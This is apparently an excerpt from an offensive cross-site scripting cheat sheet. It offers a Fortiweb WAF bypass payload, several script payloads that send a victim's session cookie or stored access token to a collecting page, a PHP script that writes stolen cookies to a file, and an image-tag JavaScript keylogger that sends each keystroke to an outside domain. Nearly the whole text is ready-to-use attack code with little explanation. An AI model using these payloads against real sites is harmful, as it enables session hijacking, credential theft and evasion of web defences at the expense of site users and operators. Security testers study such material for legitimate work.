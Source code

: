 ### Fortiweb WAF Bypass

#### 9th July 2019

```javascript
\u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
```

## Exploit XSS

### Data grabber for XSS

Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

Write the collected data into a file.

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

### Javascript keylogger

Another way to collect sensitive data is to set a javascript keylogger.

```javascript
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```
